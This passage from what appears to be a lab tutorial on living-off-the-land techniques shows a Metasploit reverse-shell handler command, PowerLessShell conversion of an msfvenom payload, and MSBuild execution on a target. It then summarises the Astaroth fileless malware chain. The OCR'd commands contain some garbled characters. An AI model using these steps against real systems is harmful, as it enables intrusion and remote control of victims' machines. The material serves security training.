 > **user@machines msfconsole -q -x “use exploit/multi/handler; set payload windows/meterpreter/reverse\_winhttps; set lhost AttackBox\_IP; set 1port 4443; exploit**

> **\[\*\] Using configured payload generic/shell\_reverse\_tcp**

> **payload => windows/meterpreter/reverse\_winhttps**

> **lhost -> AttackBox\_IP 1port > 4443**


Now that we have the payload ready, change to the **PowerLessShell** directory project to convert the payload to be compatible with the MSBuild tool. Then run the PowerLessShell tool and set the source file to the one we created with msfvenom as follows:

> **user@machines python2 PowerlessShell.py -type powershell -source /tmp/liveff.ps1 -output liveff.csproj**

Once the command is executed successfully, we need to transfer the output file to the Windows machine. You can do this using the **SCP** command or set a web server to host the file on the AttackBox (**python3 — http.server 1337)** and download the file using the browser.

Finally, on the target Windows machine, build the **.csproj** file and wait for the reverse shell!

> **C:\\Windows\\Microsoft.NET\\framework\\v4.0.3019\\MSBuild.exe c:\\users\\test\\Desktop\\liveoff.csproj**

- - -

#### **Real-life Scenario**

This section introduces a showcase of malware that used the techniques discussed in this article. In 2017, The Windows Defender Advanced Threat Protection (**Windows Defender ATP**) Research Team discovered **Fileless** malware named **Astaroth**. A fileless malware means that the malware runs and is executed in the system without writing to disk. The malware performs all its functions from the victim device’s memory.

**Astaroth** is known as an information stealer, which takes sensitive information from victim users, such as account credentials, keystrokes, and other data, and sends it to the attacker. The malware relies on various advanced techniques such as **anti-debugging, anti-virtualization, anti-emulation tricks, process hollowing, NTFS Alternate Data Streams (ADS), and Living off the land binaries** to perform different functions.

· In the initial access stage, attackers rely on a spam campaign that contains malicious attachment files. The attached file is an **LNK** file shortcut that, once the victim has clicked it, will result in the following:

· WMIC command is executed to download and run **Javascript** code.

· Abusing the **BITSadmin** to download multiple binaries from the command and control server. Interestingly, in some cases, the malware uses YouTube channel descriptions to hide their C2 server commands.

· Using the **BITSadmin**, ADS technique, to hide their binaries within the system for their persistence.

· A **Certutil** tool is used to decode a couple of downloaded payloads into DLL files.

· The DLL files are executed using **Regsvr32**.

For more details about the malware and the detections, we suggest checking the following references:
